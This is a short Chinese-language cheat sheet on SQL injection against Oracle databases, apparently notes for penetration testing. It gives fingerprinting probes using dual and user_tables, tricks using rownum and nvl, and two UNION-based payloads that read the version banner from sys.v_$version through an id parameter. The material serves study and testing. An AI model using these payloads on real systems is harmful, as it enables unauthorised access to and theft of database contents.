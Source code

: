 ![image-20210716154710781](websafe/image-20210716154710781.png)

### Oracle数据库注入

oracle数据库查询必须跟from tb_name

union select 前后数据类型必须一致，可以使用null代替。

length()函数返回长度

```sql
使用dual判断是否为oracle数据库
and exists(select * from dual)
and exists(select * from user_tables)
使用user_tables判断是否为oracle数据库（user_tables存放用户信息）
```

Oracle无limit

使用 where rownum = 1/2/3/4 数值 来选择显示第几行

and banner not in ('上一行的值')

nvl(str,'a') 判断是否为空，空转换为a

not in  和 <>一样互相可代替

select dstinct(owner from sys.all_tables)去重

```sql
//查询数据库版本
select * from sys.v_$version
#payload(1)：
?id=-1 union select 1,banner,2,3 from sys.v_$version where rownum=1 -- +
#payload(2):
?id=-1 union select 1,banner,3,4 from (select banner,rownum as LIMIT from (select distinct(banner) from sys.v_$version)) where LIMIT =1 -- +
```
